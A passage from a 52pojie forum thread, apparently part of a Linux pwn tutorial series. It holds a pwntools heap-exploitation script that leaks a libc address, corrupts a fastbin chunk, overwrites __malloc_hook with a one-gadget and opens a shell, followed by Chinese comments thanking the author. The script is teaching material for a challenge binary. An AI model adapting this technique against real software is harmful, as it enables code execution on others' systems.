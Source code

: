 ```
io.recvuntil('Command: ')
io.sendline('4')
io.recvuntil('Index: ')
io.sendline(str(dup))
io.recvuntil('Content: \n')

fd = u64(io.recv(6).ljust(8,b'\x00'))
main_arena = fd-0x58
success("Main Arena's Address is "+hex(main_arena))

malloc_hook = main_arena-0x10
libc = LibcSearcher('__malloc_hook',malloc_hook)
libc_base = malloc_hook - libc.dump('__malloc_hook')
system = libc_base + libc.dump('system')
success("System's Address: "+hex(system))
one = libc_base +0x4526a
success("One Gadget's Address: "+hex(one))

# get shell
chunk_E = malloc(0x68)
chunk_eF = malloc(0x38)
chunk_F = malloc(0x68)
free(chunk_E)
free(chunk_F)

payload = b'\x00'*0x38 + p64(0x71) + p64(malloc_hook-0x23)
# find_fake_fast
fill(chunk_eF,len(payload),payload)

malloc(0x68)
chunk = malloc(0x68)
fill(chunk,0x1b,b'\x00'*0x13 + p64(one))
malloc(0x8)

io.interactive()

``` ![](https://avatar.52pojie.cn/data/avatar/001/57/34/12_avatar_middle.jpg)

> [Hmily 发表于 2021-6-30 15:59](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=39095452&ptid=1467962)  
> @呆毛王与咖喱棒 提个建议，图床实在太慢了，能否把这个系列文章的图片上传本地，这样打开速度可以快一些。

小水管服务器确实有点慢 &#129315;，我看看这两天传一下![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)呆毛王与咖喱棒 Linux 系统以前都是用在服务器系统上，最近几年国产系统深度修改，但是在软件适用性还有待提高。  
学习 LINUX 系统底层逻辑对以后适用国产系统很有帮助，感谢楼主提供的资料。 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) 很详细的学习资源，支持。![](https://avatar.52pojie.cn/data/avatar/000/00/00/01_avatar_middle.jpg)xiarimomocha [@呆毛王与咖喱棒](https://www.52pojie.cn/home.php?mod=space&uid=1573412) 提个建议，图床实在太慢了，能否把这个系列文章的图片上传本地，这样打开速度可以快一些。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)tbloy 很详细的学习资源，支持。很详细的学习资源，支持。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)Hmily  
很详细的学习资源，支持。很详细的学习资源，支持。 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) 谢谢大佬分享！！！![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)拼搏的南瓜 谢啦哈哈哈！![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)chinasniu  
谢谢大佬分享![](https://static.52pojie.cn/static/image/smiley/default/17.gif) ![](https://avatar.52pojie.cn/data/avatar/000/20/15/05_avatar_middle.jpg) iFengZhiwei 来跟咖喱棒学 PWN![](https://static.52pojie.cn/static/image/smiley/laohu/laohu39.gif)